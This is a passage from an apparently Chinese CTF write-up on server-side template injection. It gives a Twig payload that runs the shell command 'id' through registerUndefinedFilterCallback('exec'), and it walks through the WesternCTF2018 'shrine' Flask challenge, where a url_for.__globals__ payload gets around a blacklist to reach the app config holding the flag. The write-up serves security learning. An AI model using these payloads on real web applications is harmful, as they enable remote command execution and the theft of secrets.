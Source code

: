 *   还真碰到一个。。。[服务端模板注入攻击](https://zhuanlan.zhihu.com/p/28823933)

*   拿payload尝试，有回显。

    ```
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} 
    ```

![在这里插入图片描述](img/ed392641f3a32666080d2363d39a523d.png)

### 3、[WesternCTF2018]shrine

*   这题还是ssti模板注入，打开F12得到美观源码，发现路由绑定的`url/shrine/<path:shrine>` ，访问`url/shrine/{{2*2}}` 回显4。并且明确是 `flask` 框架

    ```
    app.config['FLAG'] = os.environ.pop('FLAG') 
    ```

*   flask项目的配置都是通过app.config对象来进行配置的。设置了一个`FLAG`环境变量,flag就是和它有关。

*   再看下面的过滤，把`()` 替换为空，将单独出现的`self`和`config`替换为`None`,比如说前面加个`1.config`就能绕过。

    ```
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    ```

*   查看环境变量可以用`{{config}}`。但是被过滤，然后寻找内置函数替代。

*   然后就没有然后，去看wp,都是用的`url_for`和`get_flashed_messages`。

*   其中下面返回当前位置的全部全局变量。然后从中寻找到`current_app` 我想是因为 `<Flask 'app'>`来确认引用

    ```
    {{url_for.__globals__}} 
    ```

    ![在这里插入图片描述](img/46d690530d608c6fa6e7234f570c820d.png)
